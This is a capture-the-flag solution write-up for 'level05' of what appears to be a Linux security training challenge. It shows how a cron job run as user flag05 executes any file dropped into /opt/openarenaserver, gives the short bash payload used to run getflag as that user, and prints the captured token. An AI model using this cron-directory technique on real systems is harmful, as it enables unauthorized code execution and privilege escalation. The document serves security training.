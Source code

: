 # level05 solution
On ogin to the level via ssh new mail message notification appears. This message contains:

	*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

It is a crontab entry for flag05 user to lauch script every 2nd minute. Next step we can check contence of this script:

	for i in /opt/openarenaserver/* ; do
		(ulimit -t 5; bash -x "$i")
		rm -f "$i"
	done

This script runs through /opt/openarenaserver and executes every file which this directory contains. We can create our own script and copy it in /opt/openarenaserver to be executed under flag05 user:

	#!/bin/bash
	/bin/getflag > /tmp/level05_token

After a minute we check if our token file was created:
	
	cat /tmp/level05_token
	Check flag.Here is your token : viuaaale9huek52boumoomioc

